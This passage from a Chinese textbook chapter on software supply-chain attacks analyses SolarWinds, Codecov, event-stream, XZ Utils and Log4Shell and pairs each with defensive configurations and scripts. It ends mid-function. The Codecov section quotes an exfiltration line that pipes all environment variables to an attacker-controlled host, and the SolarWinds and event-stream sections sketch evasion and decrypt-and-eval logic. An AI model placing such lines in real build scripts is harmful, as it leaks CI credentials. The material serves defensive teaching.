



# 7.2　供应链攻击与防御

> 导读：本节从实战案例出发，归纳供应链攻击的模式与防御控制点。7.2.1 提供分类视图，7.2.2 剖析五个经典案例（SolarWinds/Codecov/NPM/XZ Utils/Log4Shell），7.2.3 映射 MITRE ATT&CK 框架，7.2.4 给出可直接落地的自动化流水线配置。SBOM 与 SCA 的详细实施见 7.3，CI/CD 安全加固见 7.4。

软件供应链攻击的核心逻辑在于路径选择：相较于直接攻击防御成熟的目标组织，渗透其供应链的薄弱环节能够以较低成本实现对多个下游目标的批量入侵。理解这一逻辑是读懂本节所有案例与防御设计的前提——后文的每一个控制点，本质上都在回答同一个问题：当"信任"本身成为攻击面时，如何用可验证的机制替代盲目的信任。

---

## 7.2.1 供应链攻击分类

### 攻击向量矩阵

在深入具体案例之前，先建立一张全局地图。攻击者可以在软件生命周期的任意环节下手，但不同环节的破坏力天差地别——同样是植入一段恶意代码，发生在开发阶段的源代码里，会随着每一次正常发布扩散到全部下游；而发生在部署阶段的单次更新劫持，波及面则局限得多。下表正是从这一视角，把攻击类型、目标阶段、典型技术与影响范围放在同一坐标系里对照。

下表从攻击类型、目标阶段、典型技术和影响范围四个维度归纳供应链攻击，核心规律是：攻击点越靠近供应链上游（开发/构建阶段），潜在影响范围越广。防御资源分配应优先覆盖开发与构建环节，同时在分发和部署阶段建立验证机制作为纵深防御。

| 攻击类型 | 目标阶段 | 典型技术 | 影响范围 |
|---------|---------|---------|---------|
| 源代码投毒 | 开发 | 账户劫持、恶意提交 | 所有下游用户 |
| 构建系统入侵 | 构建 | CI/CD 注入、编译器后门 | 特定构建产物 |
| 依赖混淆 | 依赖 | 拼写劫持、命名劫持 | 特定技术栈 |
| 第三方组件篡改 | 分发 | 仓库入侵、镜像攻击 | 特定组件用户 |
| 签名密钥窃取 | 分发 | 证书窃取、HSM 攻击 | 信任该密钥的所有用户 |
| 更新机制劫持 | 部署 | 中间人、DNS 劫持 | 自动更新用户 |

这张表"影响范围"一列最能说明问题：从"所有下游用户"到"自动更新用户"的收窄，直观地印证了越上游破坏力越大的规律。但这并不意味着可以放弃下游控制——"签名密钥窃取"一行提醒我们，即便攻击点在分发阶段，只要它命中的是被广泛信任的信任锚（如签名密钥），影响面同样会被放大到"信任该密钥的所有用户"。因此矩阵给出的防御启示是双重的：资源优先投向上游，但下游的验证机制不能缺位，否则一旦上游控制被绕过，就再无第二道防线。后续五个案例，几乎可以逐一对号入座到这张表的某一行或某几行。



---

## 7.2.2 经典攻击案例剖析

### Case 1: SolarWinds 供应链攻击（2020）

#### 攻击时间线

该事件从初始入侵到公开披露历时超过一年：2019 年 9 月攻击者进入 SolarWinds 内网并做试探性代码注入；2020 年 2 月编译并植入 SUNBURST 后门；2020 年 3 月起随 Orion 热修复版本分发含后门更新；2020 年 12 月被安全厂商发现并公开披露，CISA 同期发布 Alert AA20-352A 与紧急指令 ED 21-01[1][2]。超过一年的潜伏期表明攻击者对目标环境的情报掌握极为充分，检测时间窗口的缺失是最关键的失守。

#### 攻击流程分解

阶段一：初始入侵与横向移动

攻击者利用弱凭证进入 SolarWinds 内网后，横向移动至构建环境，最终在源代码仓库植入后门。防御缺口包括：缺乏多因素认证、构建环境与企业网未隔离、无强制代码审计流程。这三个缺口的叠加，使得单一控制的缺失产生了系统性失败。

阶段二：供应链武器化

真正让这次攻击成为教科书级案例的，不是入侵手段本身，而是后门在被植入之后如何设计得"隐身"。要理解为什么传统的恶意代码检测在它面前失效，必须看清后门是怎样逐层预判并绕开防御方常用的检测手段的。下面这段简化示意，浓缩了 SUNBURST 规避设计的核心思路——注意它攻击的是"检测过程"本身，而非攻击目标：

```csharp
// SUNBURST 后门核心逻辑（简化示意）
public class OrionImprovementBusinessLayer
{
    static OrionImprovementBusinessLayer()
    {
        // 休眠 12-14 天以躲避沙箱检测
        // 沙箱通常只运行几分钟到几小时，此设计直接跳过了大部分自动化检测
        Thread.Sleep(RandomDelay(12, 14));

        // 检查是否在分析环境中（看是否有常见的安全工具进程）
        if (!IsAnalysisEnvironment())
        {
            // 使用 DGA 生成 C2 域名，避免静态 IoC 检测
            string c2Domain = GenerateC2Domain();

            // 通过合法 Orion 进程建立隐蔽通道，伪装成正常业务流量
            EstablishC2Connection(c2Domain);
        }
    }
}
```

这段代码把三种主流检测手段各自的盲点逐一利用。第一行 `Thread.Sleep` 针对的是沙箱——自动化沙箱受成本约束只能运行有限时长，一个刻意的长休眠就能耗尽沙箱的观察窗口而不暴露任何恶意行为。`IsAnalysisEnvironment` 判断则针对人工/动态分析，一旦嗅到安全工具进程就干脆不激活，让分析人员看到的是"看似无害"的样本。最后 DGA（域名生成算法）动态生成 C2 域名，针对的是基于静态 IoC（如固定域名、IP 黑名单）的检测，使防御方无法预先把 C2 地址列入拦截清单。三者叠加，构成了一条"检测什么就规避什么"的完整链条。

这里的深层教训是：后门是在合法的构建环境里被注入到源代码的，产出制品的每一个环节看起来都合规。因此单纯依赖对成品的恶意代码检测无法应对此类攻击——检测手段能被逐一预判并绕过，唯一可靠的着力点是保证构建过程本身的完整性，这也直接引出了阶段三与后文的防御设计。

阶段三：大规模分发

含后门的更新通过正常软件更新渠道分发至 Orion 平台客户，合法证书签名使得下游验证机制完全失效。

#### 防御教训与控制设计

SolarWinds 事件的核心教训可以浓缩为一句话：签名证明来源，不证明代码内容。攻击者在合法构建环境中植入后门，产出的制品拥有合法签名，传统签名验证对此无能为力——它验证的是"这个制品确实来自 SolarWinds"，而不是"这个制品里没有后门"。既然签名这道防线在原理上就覆盖不到构建过程内部，防御的重心就必须前移到构建环节本身。下面的基线正是围绕"让构建过程可信"这一目标组织起来的：

```yaml
# 构建环境安全基线
build_security:
  network_isolation:
    - 构建网络与企业网完全隔离
    - 仅允许通过跳板机访问
  access_control:
    - 所有访问需 MFA + 硬件令牌
    - 最小权限原则
  code_review:
    - 所有代码变更需双人审核
    - 自动化检测可疑导入和网络调用
  build_integrity:
    - 使用 Hermetic Builds（如 Bazel）
    - 生成 SLSA Level 3+ 证明
```

这份基线的四个板块并非平行罗列，而是分别封堵 SolarWinds 事件中被打通的每一环：`network_isolation` 对应"构建环境与企业网未隔离"的缺口，切断从企业网横向移动到构建环境的路径；`access_control` 对应"缺乏多因素认证"，用 MFA 加硬件令牌抬高凭证窃取的门槛；`code_review` 对应"无强制代码审计"，双人审核加自动化检测可疑导入/网络调用，正是为了捕获类似 SUNBURST 那样引入网络外联的异常改动；而 `build_integrity` 中的 Hermetic Builds 与 SLSA 证明，才是真正回答"如何证明代码内容而非仅证明来源"的机制——它让构建过程可复现、可验证，弥补签名的天生盲区。

适用边界：该基线适用于面向外部客户分发软件的组织；纯内部系统可根据风险评估适度简化。

常见误区：一是认为签名即安全——签名仅证明来源，不证明代码本身无恶意；二是构建环境访问控制松散，允许开发者直接访问生产构建系统。

验证方法：红队模拟从开发者工作站横向移动至构建环境；审计构建日志中的异常网络连接；验证构建产物哈希与源代码的对应关系。

运行指标：构建环境异常登录次数（阈值：任何非预期 IP 登录触发告警）；代码审核通过率（跟踪绕过审核的提交比例）；构建产物签名验证失败次数。

---

### Case 2: Codecov Bash Uploader 篡改（2021）

#### 攻击向量

攻击者利用 Codecov Docker 镜像创建过程中的缺陷取得凭证，获得对 Bash Uploader 脚本的修改权限，自 2021 年 1 月 31 日起周期性插入窃取环境变量的恶意代码，直至 2021 年 4 月 1 日被客户发现校验和不符而暴露[3]。

#### 恶意代码分析

如果说 SolarWinds 的隐蔽在于规避检测，Codecov 的隐蔽则在于"不破坏原有功能"。攻击者的一个精妙之处是：不改动脚本原本的行为，只在前面悄悄加一段外泄逻辑，于是 CI 结果看起来一切正常，没有任何报错或功能异常会引起怀疑。对照下面篡改前后的两段脚本，就能看清这种"寄生式"改动的形态：

```bash
# 原始合法脚本
#!/bin/bash
set -e pipefail
curl -s https://codecov.io/env | bash

# 被篡改版本（恶意行为是新增的第一行 curl）
#!/bin/bash
set -e pipefail

# 新增：将所有环境变量发送到攻击者控制的服务器
# 攻击效果：CI/CD 密钥、云凭证、数据库密码全部外泄
env | curl -X POST -d @- https://attacker-controlled-server.com/collect

# 原有功能保持不变，CI 执行结果表面上无异常
curl -s https://codecov.io/bash | bash
```

这两段脚本的关键差异只有中间新增的那一行 `env | curl ... /collect`。它把当前 shell 的全部环境变量一次性 POST 到攻击者服务器，而 CI 环境中的环境变量恰恰是密钥的天然聚集地——CI/CD 令牌、云访问凭证、数据库密码往往都以环境变量形式注入。真正致命的是它的位置：恶意行为插在原有 `curl ... | bash` 之前，原功能一字未改，所以覆盖率上传照常成功，构建状态照常显示绿色。这解释了为什么这次篡改能长时间不被察觉——没有任何"功能层面"的信号可供发现。

攻击持续约 2.5 个月（2021 年 1 月 31 日至 4 月 15 日）未被发现，主要原因是缺乏对 CI/CD 出站网络连接的监控，以及未对外部脚本进行完整性校验。这两个缺口恰好指向下面三层防御的设计动机。

#### 防御措施

1. CI/CD 脚本完整性验证

既然功能层面看不出异常，防御就必须下沉到"内容"层面：不再信任脚本的来源 URL，而是校验脚本的内容哈希。逻辑很直接——只要 codecov.io 上的脚本被替换过，哈希就对不上，构建立即失败：

```yaml
# GitHub Actions 示例：验证外部脚本
name: Secure Codecov Upload
on: [push]
jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4

      - name: Run tests with coverage
        run: pytest --cov=./ --cov-report=xml

      - name: Verify Codecov script integrity
        run: |
          curl -o codecov.sh https://codecov.io/bash
          # 从可信源（如内部配置库）获取预期哈希，而非动态获取
          echo "expected_hash_here codecov.sh" | sha256sum -c -

      - name: Upload coverage
        uses: codecov/codecov-action@v3
        with:
          token: ${{ secrets.CODECOV_TOKEN }}
          file: ./coverage.xml
          fail_ci_if_error: true
```

这段配置的要害在 `Verify Codecov script integrity` 这一步，而其中最容易被做错的一行是注释所强调的：预期哈希必须来自可信源（如内部配置库），而不能实时从同一个可能已被入侵的服务器获取。否则一旦攻击者控制了脚本源，同时也就能篡改它旁边发布的哈希值，校验就形同虚设——这正是完整性校验在生产环境中最常见的失效方式。`sha256sum -c -` 的作用是拿本地下载的脚本与预期哈希逐字节比对，不匹配则该步骤直接返回非零退出码，阻断后续上传。

2. 环境变量隔离策略

Codecov 事件之所以危害巨大，是因为脚本能看到 CI 环境里的全部环境变量。既然第三方脚本不需要那么多凭证，就不该让它看见那么多——最小可见性原则在这里落地为一条 `env -i` 命令：

```bash
#!/bin/bash
# 正确做法：仅传递必要变量，切断敏感凭证的可见性
env -i \
  PATH="/usr/local/bin:/usr/bin:/bin" \
  HOME="$HOME" \
  CODECOV_TOKEN="$CODECOV_TOKEN" \
  bash -c "curl -s https://codecov.io/bash | bash"
```

`env -i` 是全篇的关键——它清空继承而来的整个环境，随后只显式白名单三个变量（`PATH`、`HOME`、上传所必需的 `CODECOV_TOKEN`）再启动子 shell。这样即便脚本仍然执行那句 `env | curl` 外泄，它能采集到的也只剩这三项，云凭证、数据库密码等敏感变量根本不在子进程的可见范围内。这是把"信任脚本不作恶"改为"限制脚本能作恶的范围"的典型思路——即便完整性校验被绕过，泄露面也被大幅压缩。

3. 出站网络监控

前两层针对脚本内容和可见凭证，但攻击的最终动作是"把数据发出去"。因此第三层直接盯住出站网络：无论恶意代码如何伪装，只要它试图连往非预期目的地，就该被捕获。这里用 Falco 在运行时层面实现：

```yaml
# /etc/falco/rules.d/ci_security.yaml
- rule: Unexpected Outbound Connection from CI
  desc: Detect connections to non-whitelisted destinations in CI environment
  condition: >
    (container.image.repository = "jenkins" or
     container.image.repository = "gitlab-runner") and
    (fd.sip != "0.0.0.0" and
     fd.sip not in (ci_allowed_destinations))
  output: >
    Suspicious outbound connection in CI environment
    (command=%proc.cmdline connection=%fd.name user=%user.name)
  priority: WARNING
  tags: [network, ci_cd]
```

这条规则的判定逻辑集中在 `condition`：先用 `container.image.repository` 把作用域限定在 CI Runner（Jenkins、GitLab Runner）容器内，再用 `fd.sip not in (ci_allowed_destinations)` 检查目标 IP 是否落在白名单之外，命中即触发告警。它体现的是一种"默认拒绝"的思路——不去枚举无穷无尽的恶意地址，而是维护一份有限的合法目的地清单，任何白名单外的外联都被视为可疑。生产环境中这类规则的成败往往取决于 `ci_allowed_destinations` 白名单是否维护得当：过窄会淹没在正常构建的误报里，过宽则会重新给外泄留出通道，需要结合实际依赖源持续调优。

适用边界：环境变量隔离适用于调用第三方脚本的 CI/CD 流程；对于完全自建脚本的流程，重点转向脚本存储库的访问控制。

常见误区：一是假设官方 Action/脚本始终安全——供应商自身也可能被入侵；二是未区分构建时凭证与运行时凭证，导致构建环境能访问生产数据库。

验证方法：在 CI 环境中执行 `env` 命令，验证暴露的变量是否符合预期；审计出站网络日志，检查是否存在非白名单目标。

运行指标：CI/CD 作业中的异常出站连接数（阈值：任何非白名单连接触发告警）；环境变量泄露检测（监控含敏感模式的数据外传）。

---

### Case 3: NPM 包劫持——event-stream（2018）

#### 攻击手法

前两个案例的入口是技术缺陷（弱凭证、配置错误），event-stream 则展示了一条更难防的路径——社会工程。2018 年 11 月，攻击者以"帮助维护"为名从原维护者手中接过 event-stream 的发布权限，随后引入被植入恶意代码的传递依赖 flatmap-stream[4]，这条路径绕开了几乎所有技术控制。拿到权限之后，攻击者还做了一个反直觉的克制设计：恶意代码只在检测到特定钱包应用（copay-dash）时才触发，以最小化被随机用户撞见并暴露的概率。下面这段简化代码正是这种"精确制导"的体现：

```javascript
// flatmap-stream@0.1.1 的恶意代码（简化）
try {
  // 仅在目标应用中运行时触发，降低被发现概率
  if (require.resolve('copay-dash')) {

    // 解密嵌入的恶意载荷（混淆存储以躲避静态扫描）
    const decrypted = decrypt(hardcodedEncryptedCode);

    // 执行钱包私钥窃取逻辑
    eval(decrypted);
  }
} catch (e) {
  // 静默失败，不产生任何错误日志
}
```

这段代码的三处设计各司其职。`require.resolve('copay-dash')` 是"制导开关"——它尝试解析目标应用，如果当前不在目标环境中，`require` 会直接抛异常，从而被外层 `try` 捕获，恶意逻辑整体跳过，绝大多数普通开发者机器上因此什么都不会发生。载荷以加密形式硬编码存储，`decrypt` 后再 `eval`，是为了让恶意字符串不以明文出现，规避针对源码的静态扫描。最外层的 `catch (e)` 则刻意留空——任何异常都被静默吞掉，不打日志、不报错，确保即便在非目标环境中触发也不会留下可疑痕迹。整段代码的哲学是"尽量不被注意到"，这也是它能在两个月内、上百万次下载中潜伏的原因。

这个案例的防御难点在于：问题不在代码写得不安全，而在于一个可信包的控制权被悄然转移。因此后续三层防御，重点都不在扫描代码本身，而在于盯住依赖与维护者的变化。

#### 防御策略

1. 依赖版本精确锁定

第一道防线是不给"被篡改的新版本"自动进入的机会。event-stream 的受害者之所以被动升级到恶意版本，很大程度上源于宽松的版本范围：

```json
{
  "dependencies": {
    "event-stream": "=3.3.4"
  }
}
```

使用精确版本（`=3.3.4`）而非范围版本（`^3.0.0`），结合 lock 文件可防止自动拉取被篡改的新版本。这里 `=` 与 `^` 的区别是全部要点：`^3.0.0` 授权工具在 3.x 范围内自动升级，等于把"该用哪个版本"的决定权交给了上游发布者；而 `=3.3.4` 把版本钉死，任何升级都必须经由一次显式的人工改动，从而给审查留出了介入点。它换取安全性的代价是升级不再自动，需要主动跟进补丁——这是一个需要团队自觉承担的权衡。

2. 依赖变更监控

锁定版本挡住了自动升级，但主动升级依赖时仍需有人盯着"这次到底引入了什么"。下面的工作流在依赖清单发生改动时自动触发，把新增依赖、传递依赖变化和安全扫描一并摆到 PR 上：

```yaml
# GitHub Actions: 依赖变更告警
name: Dependency Monitor
on:
  pull_request:
    paths:
      - 'package.json'
      - 'package-lock.json'
      - 'yarn.lock'

jobs:
  check-dependencies:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
        with:
          fetch-depth: 0

      - name: Check for new dependencies
        run: |
          git diff HEAD~1 HEAD -- package.json | grep '^\+.*"' || true

      - name: Analyze transitive dependencies
        run: |
          npm ls --all > deps_new.txt
          git checkout HEAD~1
          npm ls --all > deps_old.txt
          diff deps_old.txt deps_new.txt || true

      - name: Run security scan
        run: |
          npm audit --omit=dev
          npx snyk test --severity-threshold=high
```

`on.paths` 决定了这套检查只在锁文件或清单变动时才跑，避免无谓消耗。三个步骤层层递进——`Check for new dependencies` 用 git diff 挑出新增的依赖声明；`Analyze transitive dependencies` 通过 `npm ls --all` 对比升级前后的完整依赖树，这一步正是针对 event-stream 的教训：恶意的 flatmap-stream 是作为传递依赖被引入的，只看直接依赖会漏掉它；最后 `Run security scan` 用 npm audit 与 snyk 交叉扫描已知漏洞。前两步都以 `|| true` 结尾，意味着它们只做告警提示而不阻断流水线——把是否放行的判断权交回给评审人，这在依赖变更这种"多数是良性、少数才危险"的场景下是合理的取舍。

3. 包维护者变更监控

event-stream 的根因是维护者身份的悄然更替，因此最有针对性的一层，是直接监控关键依赖的维护者名单本身。维护者变更不一定意味着恶意，但足以作为一个"该额外看一眼"的信号：

```python
import requests
from datetime import datetime, timezone

def check_npm_maintainers(package_name, known_maintainers):
    """检查 NPM 包维护者是否发生变化"""
    url = f"https://registry.npmjs.org/{package_name}"
    response = requests.get(url)
    data = response.json()

    current_maintainers = set(m['name'] for m in data.get('maintainers', []))
    known_set = set(known_maintainers)

    added = current_maintainers - known_set
    removed = known_set - current_maintainers

    if added or removed:
        alert = {
            'package': package_name,
            'timestamp': datetime.now(timezone.utc).isoformat(),
            'added_maintainers': list(added),
            'removed_maintainers': list(removed),
            # 有人离开时风险更高（可能是账号被接管或被迫转让）
            'severity': 'HIGH' if removed else 'MEDIUM'
        }
        send_security_alert(alert)
        return False
    return True

critical_packages = {
    'express': ['dougwilson', 'mikeal'],
    'lodash': ['jdalton', 'mathias'],
}

for pkg, maintainers in critical_packages.items():
    check_npm_maintainers(pkg, maintainers)
```

核心是用集合运算对比"已知维护者"与"当前维护者"——`added` 是新出现的名字，`removed` 是消失的名字。而这段代码最值得玩味的判断在 `severity` 那一行：原维护者消失（`removed` 非空）被标为 HIGH，仅有新增则只是 MEDIUM。这背后的直觉正是 event-stream 剧本——原维护者离场往往意味着控制权已经转移（账号被接管，或如本案被"接手维护者"骗走），比单纯新增协作者危险得多。生产环境中使用它的注意点是：`critical_packages` 只列了少数关键包，因为对全部依赖做维护者轮询既不现实也会淹没信号，所以监控范围要聚焦在"直接影响核心或安全功能"的那些包上。

适用边界：维护者监控适用于关键依赖（直接影响核心功能或安全功能的包）；对于间接依赖，可通过 SCA 工具的已知漏洞检测覆盖。

常见误区：一是仅关注直接依赖，忽略传递依赖可能引入的风险；二是依赖版本范围过宽（如 `^1.0.0`），导致自动拉取含恶意代码的新版本。

验证方法：定期生成依赖树快照并对比变更；模拟维护者变更场景验证告警是否触发。

运行指标：关键包维护者变更次数（任何变更触发审查）；依赖版本漂移率（lock 文件与实际安装版本的差异）。



---

### Case 4: XZ Utils 后门事件（CVE-2024-3094）

#### 攻击背景

XZ Utils 是广泛使用的压缩工具库，在部分 Linux 发行版上通过 systemd 被 sshd 间接依赖。2024 年 3 月 29 日，微软工程师 Andres Freund 在排查 SSH 性能异常时发现 5.6.0 和 5.6.1 版本中被植入后门（CVE-2024-3094，CVSS 10.0），CISA 当日发布告警[5][6]。需要注意的是，受影响的主要是 Fedora Rawhide、Debian sid 等滚动/测试版发行版，多数稳定版因发现及时而未受影响。

这个案例的独特性在于攻击时间跨度：攻击者以活跃贡献者身份长期参与项目，建立信任关系历时约两年，然后才实施攻击。这直接挑战了"信任长期贡献者"的直觉。

#### 攻击手法

恶意代码的隐蔽性设计体现在三个层面：
- 代码分散在多个二进制测试文件中，通过构建脚本在编译时组装，静态代码审查难以发现
- 仅在特定发行版（deb/rpm）的构建环境中激活，开发者本地 `make` 测试时不会触发
- 利用 IFUNC 机制劫持 OpenSSH 的 RSA 验证函数，后门进入点非常隐蔽

这三层隐蔽有一个共同指向：真正的恶意逻辑既不在人们习惯审查的 `.c/.h` 源文件里，也不在开发者本地能复现的执行路径上。它藏在二进制测试数据中，由构建脚本在特定发行版的打包环境里临时组装、临时激活——传统代码审查看到的源码是"干净"的，本地 `make` 跑出来的也是"正常"的。这也就决定了防御的着力点必须从"审源码"扩展到"审构建"。

#### 防御教训

XZ 事件把审查盲区暴露得淋漓尽致：代码审查流程如果只盯着源文件，就会完美错过藏在构建脚本和测试数据里的攻击。下面这份策略正是把审查触发范围扩展到构建系统本身：

```yaml
# 构建脚本安全审查策略
build_script_review:
  trigger_files:
    - "*.m4"
    - "configure*"
    - "Makefile*"
    - "CMakeLists.txt"
    - "build.sh"
  required_reviewers: 2
  automated_checks:
    - binary_file_detection      # 二进制变更触发额外审查
    - obfuscation_analysis       # 检测混淆代码模式
    - build_time_network_access  # 监控构建时的网络访问
```

`trigger_files` 列出的全是构建系统文件（m4 宏、configure、Makefile、CMakeLists、build.sh），而非业务源码——这正是对 XZ 教训的直接回应：把这些"过去没人认真看"的文件纳入强制双人审核（`required_reviewers: 2`）。`automated_checks` 三项则分别对应 XZ 的三层隐蔽：`binary_file_detection` 针对"恶意代码藏在二进制测试文件"，任何二进制变更都触发额外审查；`obfuscation_analysis` 针对代码混淆；`build_time_network_access` 针对构建阶段可能出现的异常外联。需要清醒认识的是，这套机制降低的是"疏忽性错过"的概率，但面对像 XZ 这样耗时两年建立信任、精心分散痕迹的高级攻击，它并非万能——"信任长期贡献者"本身就是一个需要被正面戳破的直觉陷阱。

适用边界：该防御措施适用于维护或依赖基础设施级开源组件（压缩库、加密库、系统工具）的组织。

常见误区：一是信任长期贡献者——XZ 事件表明信任可以被长期规划后利用；二是仅审查 `.c/.h` 等源文件，忽略构建系统和测试数据。

运行指标：构建脚本变更审查覆盖率；二进制测试文件变更告警次数；关键依赖维护者变更监控。

---

### Case 5: Log4Shell 供应链影响（CVE-2021-44228）

#### 漏洞特性

前四个案例都是有意植入的攻击，Log4Shell 则不同——它是一个无意引入的漏洞（CVE-2021-44228，CVSS v3.1 基础分 10.0，2021 年 12 月披露；CISA 同期发布应急指导并将其收入已知被利用漏洞目录）[7][8]，但被放进本节，是因为它把供应链最独特的一个特性演绎到了极致：传播放大效应。一个组件的漏洞，会顺着依赖关系逐层扩散到海量下游，即便下游根本不知道自己用到了它。下面这张依赖传播示意，正是要让读者对"放大"二字建立直观感受：

```
Apache Log4j 2.x
    ↓ (直接依赖)
Apache Struts, Spring Boot, Apache Solr
    ↓ (间接依赖)
大量企业应用和云服务
    ↓ (最终影响)
数以亿计的服务器受影响
```

这张图从上到下的每一层箭头都是一次"放大"。Log4j 本身只是一个日志库，但它被 Struts、Spring Boot、Solr 这些主流框架直接依赖，这些框架又被无数应用依赖，于是一个库的漏洞被逐层复制到整个生态。图中最后两层揭示了问题的核心：大量受影响系统甚至不知道自己使用了 Log4j——它隐藏在 Spring Boot 等框架的依赖树深处，从不出现在应用自己的依赖声明里。这正是 SBOM 存在的意义：没有一份完整记录传递依赖的物料清单，组织在事发时连"我们受影响吗"这个最基本的问题都无法快速回答。

#### 应急响应自动化

理解了"很多系统连自己用没用 Log4j 都不清楚"，应急脚本的设计取向就顺理成章了：它必须遍历全部镜像（含传递依赖）来回答"谁受影响"，能通过 JVM 参数快速止血，但止血不等于根治。下面这段脚本把扫描、缓解、报告三步串成一条自动化流程：

```python
#!/usr/bin/env python3
"""Log4Shell 应急扫描与修复脚本"""
import subprocess
import json
import os
from pathlib import Path

def scan_containers_for_log4j():
    """扫描所有容器镜像中的 Log4j 库"""
    result = subprocess.run(
        ['docker', 'images', '--format', '{{.Repository}}:{{.Tag}}'],
        capture_output=True, text=True, check=True
    )
    images = result.stdout.strip().split('\n')

    vulnerable_images = []

    for image in images:
        if not image:
            continue

        scan_result = subprocess.run(
            ['trivy', 'image', '--severity', 'CRITICAL,HIGH',
             '--pkg-types', 'library', '--format', 'json', image],
            capture_output=True, text=True, check=True
        )

        data = json.loads(scan_result.stdout)

        for result in data.get('Results', []):
            for vuln in result.get('Vulnerabilities', []):
                if 'log4j' in vuln.get('PkgName', '').lower():
                    if vuln.get('VulnerabilityID') in ['CVE-2021-44228', 'CVE-2021-45046']:
                        vulnerable_images.append({
                            'image': image,
                            'package': vuln['PkgName'],
                            'version': vuln['InstalledVersion'],
                            'cve': vuln['VulnerabilityID'],
                            'severity': vuln['Severity']
                        })

    return vulnerable_images

def apply_emergency_mitigations(vulnerable_images):
    """应用紧急缓解措施（JVM 参数禁用 JNDI Lookup）"""
    mitigations = []

    for vuln in vulnerable_images:
        image = vuln['image']

        # 通过设置 JVM 参数缓解漏洞
        # 注意：此方法仅适用于 Log4j 2.10+；低版本需移除 JndiLookup 类
        mitigation = f"""
FROM {image}
ENV JAVA_OPTS="$JAVA_OPTS -Dlog4j2.formatMsgNoLookups=true"
ENV LOG4J_FORMAT_MSG_NO_LOOKUPS=true
"""

        temp_dir = Path(f'/tmp/log4shell-mitigation-{hash(image)}')
        temp_dir.mkdir(exist_ok=True)

        dockerfile_path = temp_dir / 'Dockerfile'
        dockerfile_path.write_text(mitigation)

        patched_tag = f"{image}-log4shell-patched"
        subprocess.run(
            ['docker', 'build', '-t', patched_tag, str(temp_dir)],
            check=True
        )

        mitigations.append({
            'original': image,
            'patched': patched_tag,
            'method': 'JVM parameter mitigation'
        })

    return mitigations

def generate_incident_report(vulnerable_images, mitigations):
    """生成事件响应报告"""
    report = {
        'timestamp': subprocess.check_output(['date', '-u']).decode().strip(),
        'vulnerability': 'CVE-2021-44228 (Log4Shell)',
